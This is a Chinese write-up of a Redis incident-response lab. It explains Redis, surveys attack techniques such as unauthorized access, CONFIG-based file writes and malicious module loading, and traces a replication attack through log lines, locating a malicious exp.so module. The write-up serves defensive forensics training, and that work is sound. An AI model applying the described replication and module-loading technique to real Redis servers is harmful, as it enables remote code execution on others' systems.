# Redis应急

## 一、简介

靶机名：网站入侵应急响应

靶机账号/密码：root/websecyjxy

难度-初级

# 二、题目

1、黑客的IP是？ flag格式：flag{黑客的ip地址}，如：flag{127.0.0.1}

2、黑客攻陷网站的具体时间是？ flag格式：flag{年-月-日 时:分:秒}，如：flag{2023-12-24 22:23:24}

3、黑客上传webshell的名称及密码是？ flag格式：flag{黑客上传的webshell名称-webshell密码}，如：flag{webshell.php-pass}

4、黑客提权后设置的后门文件名称是？ flag格式：flag{后门文件绝对路径加上名称}，如：flag{/etc/passwd}

5、排查出黑客进行挖矿的痕迹，获取最终的Flag。

# 三、WriteUp

‍

### 一、前言

**题目链接：**​**[第二章日志分析-redis应急响应](https://xj.edisec.net/challenges/22)**

‍

**首先简单了解一下什么是redis？**

**Redis 是一个开源的、内存中的数据结构存储系统，用作数据库、缓存和消息代理。它支持多种数据结构，如字符串、散列、列表、集合、有序集合、位图、HyperLogLogs 和地理空间索引半径查询。以下是 Redis 的一些关键特性和用途：**

**关键特性：**

1. **高性能**：

    * 由于 Redis 是内存数据库，数据存储和读取的速度非常快。每秒可以执行数百万次操作。
2. **多种数据结构**：

    * Redis 支持多种数据结构，使其非常灵活，能够适应不同类型的应用场景。
    * 支持的结构包括：字符串（Strings）、列表（Lists）、集合（Sets）、有序集合（Sorted Sets）、哈希（Hashes）、位图（Bitmaps）等。
3. **持久化**：

    * 虽然 Redis 是内存数据库，但它支持将数据持久化到磁盘上，以防数据丢失。
    * 两种持久化方式：RDB（快照）和 AOF（追加文件）。
4. **复制（Replication）** ：

    * Redis 支持主从复制，可以将数据从一个 Redis 服务器复制到多个从服务器，提供数据冗余和高可用性。
5. **高可用性**：

    * Redis 通过 Redis Sentinel 提供高可用性。Sentinel 监控 Redis 主从实例，并在主服务器不可用时自动进行故障转移。
6. **集群（Cluster）** ：

    * Redis Cluster 提供自动分片和高可用性，允许 Redis 数据分布在多个节点上。
7. **事务**：

    * 支持事务，可以保证一组命令的原子性。
8. **脚本**：

    * Redis 支持 Lua 脚本，使得可以在 Redis 服务器端执行复杂的逻辑。

**基本的常见用途：**

1. **缓存**：

    * 由于 Redis 的高性能，常被用作缓存来存储频繁访问的数据，减少数据库负载和提高应用响应速度。
2. **会话存储**：

    * Redis 可以用来存储用户会话数据，如网站的用户登录会话等。
3. **消息队列**：

    * Redis 支持发布/订阅、列表和有序集合，因此可以用作简单的消息队列系统。
4. **实时分析**：

    * Redis 可以用于实时数据分析和统计，如计数器、唯一用户统计等。
5. **排行榜/计分板**：

    * 由于有序集合的支持，Redis 非常适合实现排行榜和计分板功能。
6. **地理空间数据**：

    * Redis 提供了内置的地理空间数据类型和命令，可以处理和查询地理位置数据。

**Redis 的强大功能和灵活性使其在现代应用中得到了广泛的应用，包括社交网络、实时分析、缓存、会话管理和队列处理等领域。**

‍

**简单了解一下攻击Redis的手法；**

* **未授权访问**：

  * **缺乏身份验证**：默认情况下，Redis 不要求身份验证，攻击者可以直接连接到 Redis 实例并执行任意命令。
  * **开放的网络接口**：如果 Redis 监听在一个公共的 IP 地址上，攻击者可以通过网络远程访问 Redis 实例。
* **远程代码执行**：

  * **CONFIG 命令**：攻击者可以利用未授权访问，通过 CONFIG 命令修改配置，例如设置 `dir`​ 和 `dbfilename`​ 来写入恶意文件，从而在目标服务器上执行代码。
  * **模块加载**：Redis 允许加载自定义模块，如果没有进行适当的访问控制，攻击者可以加载恶意模块并执行任意代码。
* **持久化攻击**：

  * **持久化文件劫持**：攻击者可以修改 Redis 的持久化配置（如 RDB 或 AOF 文件），然后写入恶意数据，当 Redis 重启时执行恶意操作。
  * **恶意数据注入**：通过注入恶意数据到持久化文件中，攻击者可以在数据恢复时触发恶意行为。
* **拒绝服务攻击（DoS）** ：

  * **资源耗尽**：通过发送大量请求或存储大量数据，攻击者可以耗尽 Redis 服务器的内存或 CPU 资源，导致服务不可用。
  * **大键值操作**：操作超大键值（如大列表或集合）可能会导致 Redis 性能下降，甚至崩溃。
* **数据篡改和泄露**：

  * **数据窃取**：未经授权的访问可以导致敏感数据的泄露。
  * **数据篡改**：攻击者可以修改或删除关键数据，影响系统的正常运行。

### 二、参考文章

[日志分析-redis应急响应](https://www.cnblogs.com/NoCirc1e/p/18164579)

[玄机-第二章 日志分析-redis应急响应](https://blog.csdn.net/JACKBREAK/article/details/139048283)

‍

### 三、步骤（解析）

##### 准备工作#1.0

**使用Xshell连接；（新建连接，这里不在强调）**

​​

**使用Xftp连接，并找到redis日志存放位置下载进行分析；**

​​

#### 步骤#1

##### 通过本地 PC SSH到服务器并且分析黑客攻击成功的 IP 为多少,将黑客 IP 作为 FLAG 提交;

‍

解题思路；

‍

**题目让我们通过本机使用SSH连接靶机然后分析黑客IP，其实不需要这么麻烦（SSH连接），我们直接分析redis的日志即可，当然前提条件是我们必须先知道“redis”版本号是多少，然后简单了解一下黑客是利用什么漏洞打进来的，这样更有助于了解后面的题目；**

注意：如果已使用Xftp下载日志的师傅，推荐记事本更好分析一些（Xshell黑黑的看着实在难受）

Redis 服务器日志存放位置；（一般不会轻易修改）

	logfile /var/log/redis/redis.log

**Redis 日志文件通常用于记录 Redis 服务器的运行情况、错误信息和其他重要事件。这些日志文件默认存放在**  **​`/var/log/`​** ​ **目录下，但实际位置可以通过 Redis 配置文件** **​`redis.conf`​**​ **中的** **​`logfile`​**​ **参数进行配置，但这题未修改。**

Redis版本号查询命令；（也可以直接使用——redis-server --version）

	redis-cli INFO | grep redis_version

**接着查看** **​`redis.conf`​**​ **配置文件中注释部分，通常在文件顶部会包含版本信息。**

​​

得到；

> redis_version:5.0.1

Redis:5.0.1最大可能性漏洞；

**最大可能性漏洞及其影响**

对于 Redis 5.0.1，**未授权访问** 是最常见且可能性最大的漏洞，尤其是在 Redis 默认配置下没有设置密码的情况下。攻击者可以通过未授权访问执行以下操作：

1. **读取和修改数据**：攻击者可以读取 Redis 数据库中的所有数据，甚至可以删除或修改数据。
2. **远程代码执行**：攻击者可以利用 `CONFIG`​ 命令修改配置文件来写入恶意代码，从而在目标服务器上执行任意代码。
3. **持久化恶意代码**：通过修改 Redis 的持久化配置，攻击者可以在服务器重启时执行恶意操作。

开始分析Redis日志；

**同样日志里面也是能发现版本号；**

​​

**因为日志不是很多，算比较少的，往下翻一些就发现了“192.168.100.13”这个IP一直想与 Redis 实例尝试与主服务器（MASTER）进行同步（SYNC），但连接被拒绝（Connection refused）；**

那就尝试提交一下，发现正确；（做了那么多找黑客ip的题目，如果IP不是很多且没有提交限制，为了更便捷，建议可以直接统计一下IP，一个一个尝试提交即可）

​​

得到，发现正确，但是。。。不是这题的，那没事我们继续往下翻翻看看日志；

	flag{192.168.100.13}

那这里就简单分析一下；

**关键日志信息**：

* ​`MASTER <-> REPLICA sync started`​: 表示 Redis 副本（REPLICA）尝试与主服务器（MASTER）进行同步。
* ​`Error condition on socket for SYNC: Connection refused`​: 表示同步连接尝试失败，连接被拒绝。

**下面这里又发现了个IP：192.168.100.20，尝试提交，发现这才是第一题翻的flag，那这到底是怎么回事呢？我们来好好分析一下；**

​  
简单分析；

从日志中，可以分析出黑客成功攻击的IP是192.168.100.20，以下是具体的分析过程：

**日志分析**

连接失败：

	419:S 31 Jul 2023 05:34:00.715 * MASTER <-> REPLICA sync started  
	419:S 31 Jul 2023 05:34:00.715 # Error condition on socket for SYNC: Connection refused  
	419:S 31 Jul 2023 05:34:01.717 * Connecting to MASTER 192.168.100.13:8888  
	419:S 31 Jul 2023 05:34:01.717 * MASTER <-> REPLICA sync started  
	419:S 31 Jul 2023 05:34:01.718 # Error condition on socket for SYNC: Connection refused

**这里多次尝试连接192.168.100.13:8888，但都被拒绝（Connection refused）。**

切换主节点：

	419:S 31 Jul 2023 05:34:03.034 * REPLICAOF 192.168.31.55:8888 enabled (user request from 'id=5 addr=192.168.200.2:64319 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=47 qbuf-free=32721 obl=0 oll=0 omem=0 events=r cmd=slaveof')

切换到另一个主节点192.168.31.55:8888。

**再次切换主节点：**

	419:S 31 Jul 2023 05:34:33.173 * REPLICAOF 192.168.100.20:8888 enabled (user request from 'id=6 addr=192.168.200.2:64339 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=48 qbuf-free=32720 obl=0 oll=0 omem=0 events=r cmd=slaveof')  
	切换到192.168.100.20:8888。

**成功连接并同步：**

	419:S 31 Jul 2023 05:34:33.786 * Connecting to MASTER 192.168.100.20:8888  
	419:S 31 Jul 2023 05:34:33.786 * MASTER <-> REPLICA sync started  
	419:S 31 Jul 2023 05:34:33.788 * Non blocking connect for SYNC fired the event.  
	419:S 31 Jul 2023 05:34:35.192 * Master replied to PING, replication can continue...  
	419:S 31 Jul 2023 05:34:35.194 * Trying a partial resynchronization (request 7a73a1a4297a16c50d8465b0cc432444f0e5df71:1).  
	419:S 31 Jul 2023 05:34:35.195 * Full resync from master: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ:1  
	419:S 31 Jul 2023 05:34:35.195 * Discarding previously cached master state.  
	419:S 31 Jul 2023 05:34:35.195 * MASTER <-> REPLICA sync: receiving 48040 bytes from master  
	419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Flushing old data  
	419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Loading DB in memory  
	419:S 31 Jul 2023 05:34:35.197 # Wrong signature trying to load DB from file  
	419:S 31 Jul 2023 05:34:35.197 # Failed trying to load the MASTER synchronization DB from disk

**从这部分日志中，可以看到与192.168.100.20成功建立连接并进行同步。尽管尝试加载同步数据时出现错误，但连接和同步过程已经开始，这意味着攻击者已经能够通过这种连接尝试植入恶意代码或进一步操控系统。**

加载恶意模块：

	419:S 31 Jul 2023 05:34:37.205 * Module 'system' loaded from ./exp.so

最后，从日志中可以看到恶意模块exp.so被成功加载，这通常是黑客用来执行进一步攻击的手段。

**总结**

黑客通过多次尝试，最终成功将从节点配置为复制192.168.100.20:8888，并通过该连接植入了恶意模块。这表明，IP地址192.168.100.20是黑客成功攻击的目标。

	flag{192.168.100.20}

###### 拓展1.1

**当然以上是客观分析，最重要的一点就是涉及到Redis的主从复制；**

Redis的主从复制是用来实现数据冗余和提高可用性的一种机制。

1、**从节点发送同步请求**：从节点通过发送SYNC或PSYNC命令请求与主节点同步数据。

2、**全量同步**：如果从节点是首次同步或与主节点的复制偏移量不匹配，主节点会执行BGSAVE命令创建一个RDB文件，并将其发送给从节点。从节点接收RDB文件并加载到内存中。

3、**增量同步**：在全量同步之后，主节点会将其缓冲区中的写命令持续发送给从节点，以保证数据一致性。

详细分析：

**1、多次尝试连接不同主节点：**

	419:S 31 Jul 2023 05:34:00.715 * MASTER <-> REPLICA sync started  
	419:S 31 Jul 2023 05:34:00.715 # Error condition on socket for SYNC: Connection refused  
	419:S 31 Jul 2023 05:34:01.717 * Connecting to MASTER 192.168.100.13:8888  
	419:S 31 Jul 2023 05:34:01.717 * MASTER <-> REPLICA sync started  
	419:S 31 Jul 2023 05:34:01.718 # Error condition on socket for SYNC: Connection refused

攻击者先是尝试连接192.168.100.13:8888，但连接被拒绝。

**2、切换到另一个主节点：**

	419:S 31 Jul 2023 05:34:03.034 * REPLICAOF 192.168.31.55:8888 enabled (user request from 'id=5 addr=192.168.200.2:64319 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=47 qbuf-free=32721 obl=0 oll=0 omem=0 events=r cmd=slaveof')

攻击者通过REPLICAOF命令将从节点的主节点更改为192.168.31.55:8888。

**3、最终连接并同步成功：**

	419:S 31 Jul 2023 05:34:33.173 * REPLICAOF 192.168.100.20:8888 enabled (user request from 'id=6 addr=192.168.200.2:64339 fd=7 name= age=0 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=48 qbuf-free=32720 obl=0 oll=0 omem=0 events=r cmd=slaveof')  
	419:S 31 Jul 2023 05:34:33.786 * Connecting to MASTER 192.168.100.20:8888  
	419:S 31 Jul 2023 05:34:33.786 * MASTER <-> REPLICA sync started  
	419:S 31 Jul 2023 05:34:33.788 * Non blocking connect for SYNC fired the event.  
	419:S 31 Jul 2023 05:34:35.192 * Master replied to PING, replication can continue...  
	419:S 31 Jul 2023 05:34:35.194 * Trying a partial resynchronization (request 7a73a1a4297a16c50d8465b0cc432444f0e5df71:1).  
	419:S 31 Jul 2023 05:34:35.195 * Full resync from master: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ:1  
	419:S 31 Jul 2023 05:34:35.195 * Discarding previously cached master state.  
	419:S 31 Jul 2023 05:34:35.195 * MASTER <-> REPLICA sync: receiving 48040 bytes from master  
	419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Flushing old data  
	419:S 31 Jul 2023 05:34:35.197 * MASTER <-> REPLICA sync: Loading DB in memory  
	419:S 31 Jul 2023 05:34:35.197 # Wrong signature trying to load DB from file  
	419:S 31 Jul 2023 05:34:35.197 # Failed trying to load the MASTER synchronization DB from disk

最终，攻击者将从节点的主节点设置为192.168.100.20:8888并成功建立连接。虽然在加载数据库时出现错误，但连接和同步过程已经开始，这表明攻击者通过这种方式植入恶意代码或进一步操控系统。

**4、加载恶意模块：**

	419:S 31 Jul 2023 05:34:37.205 * Module 'system' loaded from ./exp.so

攻击者成功加载了恶意模块exp.so，这通常是用来执行进一步攻击的手段。

总结

**攻击者利用Redis的主从复制机制，通过多次尝试连接不同的主节点，最终成功将从节点配置为复制192.168.100.20:8888，并通过该连接植入了恶意模块。**

#### 步骤#2

##### 通过本地 PC SSH到服务器并且分析黑客第一次上传的恶意文件,将黑客上传的恶意文件里面的 FLAG 提交;

解题思路；

**题目让我们找到黑客第一次上传的恶意文件，一般来说我们都会先去翻翻日志，看看有什么可疑的活动，接着筛选可疑命令，搜索如** **​`CONFIG SET`​**​ **、**​**​`SLAVEOF`​**​ **、**​**​`MODULE LOAD`​**​ **等命令，这些命令可能被黑客用来修改 Redis 的配置或者加载恶意模块。**

> sudo grep 'CONFIG SET' /var/log/redis.log  
> sudo grep 'SLAVEOF' /var/log/redis.log  
> sudo grep 'MODULE LOAD' /var/log/redis.log

这边发现大写的“SLAVEOF”没查到，后来改成小写的就发现了可以活动；

​​

简单分析一下；

根据日志，攻击者在多次执行 `SLAVEOF`​ 命令后，通过修改 Redis 的主从复制配置，将受害者的 Redis 实例配置为从属服务器，从而将恶意数据或命令同步到目标服务器。

具体分析；

1. **05:33:15 - REPLICAOF 192.168.100.13:8888**：

    * 攻击者首次执行 `SLAVEOF`​ 命令，将 Redis 配置为从属服务器，指向 `192.168.100.13:8888`​。
    * 攻击者可能尝试与其控制的服务器建立连接，以同步数据。
2. **05:34:03 - REPLICAOF 192.168.31.55:8888**：

    * 第二次执行 `SLAVEOF`​ 命令，将从属服务器的地址更改为 `192.168.31.55:8888`​。
    * 这可能是因为与 `192.168.100.13:8888`​ 的连接失败，攻击者更换了控制服务器地址。
3. **05:34:33 - REPLICAOF 192.168.100.20:8888**：

    * 第三次执行 `SLAVEOF`​ 命令，将从属服务器的地址再次更改为 `192.168.100.20:8888`​。
    * 这可能是攻击者的第三个尝试，试图找到一个能够成功连接的控制服务器。
4. **05:34:37 - MASTER MODE enabled**：

    * 最终攻击者将 Redis 配置为主服务器模式，说明他们已经成功掌控了 Redis 实例。
    * 这一点通常是在成功与恶意服务器同步后，攻击者控制 Redis 实例所进行的操作。

**我们在分析 Redis 日志的过程中，尽管能够识别出攻击者的行为（如多次尝试使用** **​`SLAVEOF`​**​ **命令），我们仍需要找到黑客上传的具体恶意文件。通常，黑客上传的文件可能包括恶意的 Redis 模块、恶意脚本等，这些文件会在 Redis 的数据目录或临时目录中生成。**

所以这里我们还需要进一步检查 Redis 日志中提到的模块；

	grep "Module 'system' loaded from" /var/log/redis/redis.log

得到；

​​

> 419:S 31 Jul 2023 05:34:37.205 * Module 'system' loaded from ./exp.so

**通过我们已经下载好的日志（使用Xftp导出的日志），简单前前后后分析一下；**

​​

**关键点分析**

1. **多次的**​**​`SLAVEOF`​**​ **命令**：

    * 攻击者首先将 Redis 配置为从属服务器指向 `192.168.31.55:8888`​，然后又指向 `192.168.100.20:8888`​。这可能是为了多次尝试连接攻击者的控制服务器。
2. **加载恶意模块**：

    * 日志显示在 `05:34:37.205`​ 时加载了名为 `system`​ 的模块（从 `./exp.so`​ 路径）。这很可能是一个恶意模块。
3. **模块卸载**：

    * 在 `05:34:37.231`​ 时，模块被卸载。这可能是攻击者在执行完恶意操作后卸载模块以掩盖痕迹。
4. **多次保存数据库**：

    * 数据库在 `05:42:00`​ 和 `05:42:42`​ 时被保存到磁盘。这可能表明攻击者试图将恶意数据持久化。

**那问题又来了为什么** **​`SLAVEOF`​**​ **算作恶意行为？**

* **利用漏洞**：通过 `SLAVEOF`​ 命令，攻击者可以让目标 Redis 实例连接到他们控制的主服务器，从而将恶意数据同步到目标服务器上。
* **模块加载**：在同步过程中，攻击者可以利用模块加载功能，将恶意模块（如 `exp.so`​）加载到目标服务器上，从而执行任意代码或篡改数据。

**那我们该如何找到恶意文件？**

根据日志分析，猜测恶意文件可能是 `exp.so`​ 模块。可以通过以下步骤找到并分析该文件：

1. **查找模块文件**：

    * 查看 Redis 目录中是否存在名为 `exp.so`​ 的文件：

    ​`sudo find / -name exp.so`​

​​

位置根目录下；

**总结**

* **SLAVEOF** 命令和 **模块加载** 是此次攻击的关键操作。
* 攻击者通过这些手段将 Redis 配置为从属服务器并加载恶意模块，从而实现恶意行为。
* 找到并分析 `exp.so`​ 模块，以及检查持久化文件，可以帮助确定攻击的具体内容和范围。

那就使用Xftp导出文件丢进010分析呗；（这里要在不放心是恶意文件，可以丢进在线的微步或者和河马、D盾都行）

[微步在线](https://s.threatbook.com/)

​​

**导出，右键记事本打开（题目说将里面的flag进行提交，那我们直接定位查找一下关键字flag即可）**

